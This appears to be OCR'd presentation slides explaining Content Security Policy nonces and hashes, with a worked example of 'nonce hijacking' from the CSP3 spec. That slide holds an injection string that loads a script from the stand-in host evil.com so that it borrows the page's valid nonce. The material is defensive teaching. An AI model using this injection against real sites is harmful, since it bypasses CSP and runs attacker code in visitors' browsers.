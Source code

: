 ```
<script nonce="2726c7f26c">
  const inline = 1;
  // …
</script>
```
`Content-Security-Policy: script-src 'nonce-2726c7f26c'`

---
# [Nonce - hijacking](https://www.w3.org/TR/CSP3/#security-nonce-hijacking)

* Your code : 
  `Content-Security-Policy: script-src 'nonce-abc'`
  ```html
  <p>Hello, [INJECTION POINT]</p>
  <script nonce="abc" src="/good.js"></script>
  ```

* If an attacker injects the string 

  ```html 
  "<script src='https://evil.com/evil.js' "  
  ````

---

- then the browser will receive the following:

  ```html
  <p>Hello, <script src='https://evil.com/evil.js' </p>
  <script nonce="abc" src="/good.js"></script>
  ```
It will then parse that code, ending up with a script element with a `src` attribute pointing to a malicious payload, an attribute named `</p>`, an attribute named `"<script"`, a nonce attribute, and a second src attribute which is helpfully discarded as duplicate by the parser.

---
# Hashes

Alternatively, you can create hashes from your inline scripts. CSP supports sha256, sha384 and sha512.
```
<script>
  const inline = 1;
</script>
```
`echo -n 'const inline = 1;' | openssl sha256 -binary | openssl base64`

`Content-Security-Policy: script-src 'sha256-2XA6OeWgx7rumjOswMWkHzvY7xYWT9JsRykQhkmJXi0='`

---
# Generic Unsafe Policy
